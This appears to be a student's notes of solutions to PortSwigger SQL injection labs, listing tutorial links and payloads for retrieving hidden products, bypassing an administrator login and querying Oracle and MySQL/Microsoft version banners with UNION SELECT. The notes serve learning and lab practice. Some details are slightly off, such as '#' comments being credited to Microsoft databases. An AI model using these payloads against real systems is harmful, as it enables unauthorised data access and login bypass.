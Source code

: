 ## Links:
1. https://portswigger.net/web-security/sql-injection 
   a. https://portswigger.net/web-security/sql-injection/union-attacks
   b. https://portswigger.net/web-security/sql-injection/blind
2. https://portswigger.net/web-security/sql-injection/cheat-sheet

 [How to Bypass SQL Injection Filter](https://www.hackingarticles.in/bypass-filter-sql-injection-manually/)
 [Form Based SQL Injection](https://www.hackingarticles.in/form-based-sql-injection-manually/)

## **1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**
SQL injection attack that causes the application to display one or more unreleased products.

	SELECT * FROM products WHERE category = ' OR 1=1--

```
	.../filter?category= ' OR 1=1--
```


## **2. SQL injection vulnerability allowing login bypass**
SQL injection attack that logs in to the application as the `administrator` user.

```
.../my-account?id=administrator'--
```


## **3. SQL injection querying the database type and version on Oracle**
 ```
 'UNION SELECT'a','b' FROM dual--
```

 Display the database version:
```
 'UNION SELECT 'a', banner FROM v$version--
```


## **4. SQL injection attack, querying the database type and version on MySQL and Microsoft**
In Microsoft database we can payload without to specify FROM table, instead we can comment with "#" right after selected columns:
 ```
 'UNION SELECT'a','b'#
```

 Display the database version:
```
 'UNION SELECT 'a', @@version#
 ```
